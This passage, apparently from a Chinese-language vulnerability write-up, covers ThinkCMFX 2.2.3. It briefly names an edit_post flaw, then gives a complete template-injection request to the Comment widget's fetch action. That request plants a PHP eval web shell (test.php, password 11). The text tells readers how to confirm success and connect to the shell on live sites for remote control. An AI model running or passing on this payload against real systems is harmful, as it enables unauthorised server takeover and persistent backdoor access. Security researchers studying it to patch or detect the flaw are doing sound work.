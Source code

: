 #### 0x01.2 漏洞原理

文件：ThinkCMFX_2.2.3\application\Portal\Controller\ArticleController.class.php
方法：public function edit_post(

![image](img/c0a291542437f13b2029fc93a5ff0578.png)

这里不多讲，因为没得意义。详情请看先知的历史tp漏洞，谢谢：)

#### 0x02 前台模版注入漏洞-可getshell两处

##### 0x02.1 Comment类模版引擎注入演示

```
url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
post:
templateFile=/../public/index
prefix=''
content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php> 
```

发送之后页面http状态会为200，这样就表示成功了
简单讲解一下：content 我输入了php代码所以他会在本地跟路径创建一个一句话木马test.php
所以实战过程中。

连接马子：http://xxxxx.com/test.php 密码:11
即可getshell
